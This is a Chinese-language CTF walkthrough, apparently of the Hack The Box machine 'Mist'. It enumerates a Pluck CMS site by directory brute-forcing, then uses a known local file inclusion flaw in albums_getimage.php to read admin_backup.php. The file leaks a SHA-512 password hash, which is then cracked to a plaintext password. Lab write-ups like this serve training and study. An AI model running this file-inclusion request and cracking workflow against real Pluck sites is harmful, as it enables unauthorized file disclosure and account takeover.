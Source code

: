 根据页面，可以得知是由 [pluck](https://github.com/pluck-cms/pluck) 框架搭建的

尝试进行目录爆破

```plaintext
[22:57:55] 200 -    4KB - /ADMIN.php
[22:57:55] 200 -    4KB - /admin.php
[22:57:55] 200 -    4KB - /Admin.php
[22:58:42] 200 -    2KB - /cgi-bin/printenv.pl
[22:58:55] 301 -  333B  - /data  ->  http://10.10.11.17/data/
[22:58:55] 200 -   48B  - /data/
[22:59:00] 301 -  333B  - /docs  ->  http://10.10.11.17/docs/
[22:59:00] 200 -    2KB - /docs/
[22:59:21] 301 -  335B  - /images  ->  http://10.10.11.17/images/
[22:59:21] 200 -  771B  - /images/
[22:59:23] 403 -  300B  - /index.php::$DATA
[22:59:24] 200 -    4KB - /install.php
[22:59:24] 200 -    4KB - /install.php?profile=default
[22:59:33] 200 -    1KB - /login.php
[23:00:10] 200 -    2KB - /README.MD
[23:00:10] 200 -    2KB - /README.md
[23:00:10] 200 -    2KB - /ReadMe.md
[23:00:10] 200 -    2KB - /readme.md
[23:00:10] 200 -    2KB - /Readme.md
[23:00:14] 200 -   47B  - /robots.txt
```

根据其原代码，可以定位到网站的配置文件目录 `/data/settings/`

注意到网站首页的 url 结构 `http://10.10.11.17/?file=mist` 之后，以及存在漏洞 [Pluck CMS 4.7 - Multiple Local File Inclusion / File Disclosure Vulnerabilities](https://www.exploit-db.com/exploits/36129) 怀疑可能存在任意文件读取，尝试利用

```php title="http://10.10.11.17/data/modules/albums/albums_getimage.php?image=admin_backup.php"
<?php
$ww = 'c81dde783f9543114ecd9fa14e8440a2a868bfe0bacdf14d29fce0605c09d5a2bcd2028d0d7a3fa805573d074faa15d6361f44aec9a6efe18b754b3c265ce81e';
?>146
```

直接使用 [crackstation.net](https://crackstation.net/) 进行破解

|                               Hash                               |  Type  |  Result   |
| :--------------------------------------------------------------: | :----: | :-------: |
| c81dde783f9543114ecd9fa14e8440a2a868bfe0bacdf14d29fce0605c09d5a2 |        |           |
| bcd2028d0d7a3fa805573d074faa15d6361f44aec9a6efe18b754b3c265ce81e | sha512 | lexypoo97 |

得到用户密码

```plaintext
lexypoo97
```

### 网站后台
